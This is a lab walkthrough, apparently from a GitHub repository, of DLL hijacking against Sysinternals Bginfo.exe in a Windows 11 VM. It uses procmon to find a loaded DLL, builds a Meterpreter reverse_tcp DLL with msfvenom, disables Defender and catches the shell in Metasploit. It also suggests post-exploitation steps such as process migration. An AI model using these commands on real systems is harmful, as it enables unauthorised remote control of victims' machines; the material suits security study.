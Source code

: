 # 1. Find the Vulnerable `.dll` File
### In Windows 11 VM
Use [procmon](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) to find the vulnerable `.dll` file.

### Filter Settings
Create the following 3 conditions
![procmon](./screenshots/02.png)


### Search for vulnerable `.dll` file
Then execute [Bginfo.exe](https://learn.microsoft.com/en-us/sysinternals/downloads/bginfo).

![Bginfo.exe](./screenshots/03.png)

I tried one or several `.dll` files in the folder of `C:\User\user\Desktop\BGinfo` at the same time, but none of them worked. Eventually, I found on `.dll` file `rpcss.dll` had been searched by `Bginfo.exe` twice, so I tried it and it worked!

![rpcss.exe](./screenshots/01.png)

# 2.Kali VM
### Generate malicious `.dll` file
You can use `ip a` to find your IP address in case you haven't checked it yet.
```bash
msfvenom -p windows/meterpreter/reverse_tcp  -ax86 -f dll LHOST=<YOUR_IP_ADDR> LPORT=4444 > <VULNERABLE_DLL_FILE_NAME>.dll
```
![malicious_dll.exe](./screenshots/04.png)

### Host a server 8000
Then, the victim Windows 11 VM can download this malicious `.dll` file directly from your server.
```bash
python3 -m http.server 8000
```

# 3. Windows 11 VM
### Download the file
- Make sure you turn off the defender before, or the file will be removed.
- Put this `.dll` file into the folder shown in the `procmon`.

![server_8000](./screenshots/05.png)

# 4. Kali
### Generate shell in Metasploit
```bash
sudo msfconsole
```

![Metaslpoit](./screenshots/06.png)

### Create the shell

```bash
use multi/handler
set LHOST <YOUR_IP_ADDR>
set LPORT 4444
set PAYLOAD windows/meterpreter/reverse_tcp
```

**NOTE:** You can use `show options` to check the information you typed previously.

### Start Listening
Finally, we can start listening to the malicious payload once the victim click on the executable, then it will be reversed back to the Kali VM.
```bash
exploit
```

# 5. Windows 11
I restart the Windows 11 VM before fire up the executable `Bginfo.exe`, but if you succeed right away, you can skip this step/

![Bginfo.exe](./screenshots/07.png)

# 6. Kali
Then you will find you have the meterpreter shell now.
![meterpreter shell 01](./screenshots/08.png)

# Exploration
- Explore the victim's VM
- Migrate to another process in case the victim kills the original one.
![meterpreter shell 02](./screenshots/09.png)

### Check the Vulnerabilities

![meterpreter shell 03](./screenshots/10.png)

It might take longer time for Windows 11, Windows 10 or 7 would be recommended for testing prupose.

![meterpreter shell 04](./screenshots/11.png)


---

# Reference
- [DLL Hijacking Basics](https://medium.com/@zapbroob9/dll-hijacking-basics-ea60b0f2a1d8) by Enes Adışen, 2023.